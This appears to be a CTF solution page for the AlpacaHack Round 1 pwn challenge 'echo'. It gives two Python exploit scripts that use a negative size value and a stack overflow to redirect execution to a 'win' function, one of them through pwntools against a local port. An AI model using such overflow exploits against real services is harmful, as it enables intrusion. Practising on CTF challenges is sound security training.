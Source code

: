 # AlpacaHack
- [AlpacaHack](https://alpacahack.com/)
- [AlpacaHack Round 1 (Pwn)のWriteup - CTFするぞ](https://ptr-yudai.hatenablog.com/entry/2024/08/19/035647)

# AlpacaHack Round 1 (Pwn) / echo
[echo](https://alpacahack.com/ctfs/round-1/challenges/echo)

**exploit1.py**
```python
#!/usr/bin/env python3
import sys
import struct
def p64(x):
    return struct.pack("<Q", x)
# objdump -t echo | grep -w win | cut -d ' ' -f 1
win = p64(0x00000000004011f6)
sys.stdout.buffer.write(b"-2147483648"+b"\x0a")
sys.stdout.buffer.write(b"A"*(0x100+24))
sys.stdout.buffer.write(win+b"\x0a")
```

**exploit2.py**
```python
#!/usr/bin/env python3
from pwn import *
binary = "./echo"
context(arch = 'amd64', os = 'linux')
elf = ELF(binary)
win = elf.symbols["win"]
print("[#] addr of win:", hex(win))
#io = process(binary)
io = remote("127.0.0.1", 5000)
io.recvuntil(b"Size: ")
io.sendline(b"-2147483648")
io.recvuntil(b"Data: ")
io.sendline(b"A"*(0x100+24) + p64(win))
io.interactive()
```
